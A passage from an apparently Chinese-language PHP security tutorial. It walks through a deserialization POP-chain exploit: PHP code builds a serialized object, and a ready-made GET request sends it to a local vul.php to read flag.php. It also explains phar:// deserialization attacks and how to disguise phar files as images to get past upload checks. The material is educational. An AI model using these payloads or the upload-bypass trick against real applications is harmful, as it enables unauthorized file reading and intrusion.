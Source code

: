```

  $test = new Test();

  $test->params = array('source'=>'/var/www/html/flag.php');

  $show = new Show();

  $show->str = array('str'=>$test);

  $output = new Output($show);

  echo serialize($output);

?>
```

执行后得到如下序列化字符串：

复制代码

```
O:6:"Output":2:{s:4:"test";N;s:3:"str";O:4:"Show":2:{s:3:"str";a:1:{s:3:"str";O:4:"Test":2:{s:4:"file";N;s:6:"params";a:1:{s:6:"source";s:22:"/var/www/html/flag.php";}}}s:6:"source";N;}}
```

**5. 将生成的序列化字符串传递给漏洞参数实现利用**

漏洞参数是 GET 参数 str，因此可以如此构造请求：

复制代码

```
http://127.0.0.1/vul.php?str=O:6:"Output":2:{s:4:"test";N;s:3:"str";O:4:"Show":2:{s:3:"str";a:1:{s:3:"str";O:4:"Test":2:{s:4:"file";N;s:6:"params";a:1:{s:6:"source";s:22:"/var/www/html/flag.php";}}}s:6:"source";N;}}
```

整个过程可能有点绕，但 POP 链的利用技术就是如此，需要你对目标程序进行全方位的分析，提取出可利用的调用链进行组装，才有可能实现真正的攻击效果。

#### 3.phar 文件攻击

在 2018 年 BlackHat 黑客大会上，安全研究员 Sam Thomas 分享了议题“It's a PHP unserialization vulnerability Jim, but not as we know it”，介绍了一种关于利用 phar 文件实现反序列化漏洞的利用技巧，利用的是 phar 文件中序列化存储用户自定义的 meta-data，在解析该数据时就必然需要反序列化，配合 phar:// 伪协议即可触发对此的反序列化操作。比如如下代码即可触发对 test.txt 文件内容的反序列化操作：

复制代码

```
$filename = 'phar://phar.phar/test.txt';

file_get_contents($filename);
```

在实际利用时，还可以对 phar 文件进行格式上的伪造，比如添加图片的头信息，将其伪装成其他格式的文件，用于绕过一些上传文件格式的限制。
更加具体技术资料，推荐以下两篇：

[《利用 phar 拓展 php 反序列化漏洞攻击面》](https://paper.seebug.org/680/)
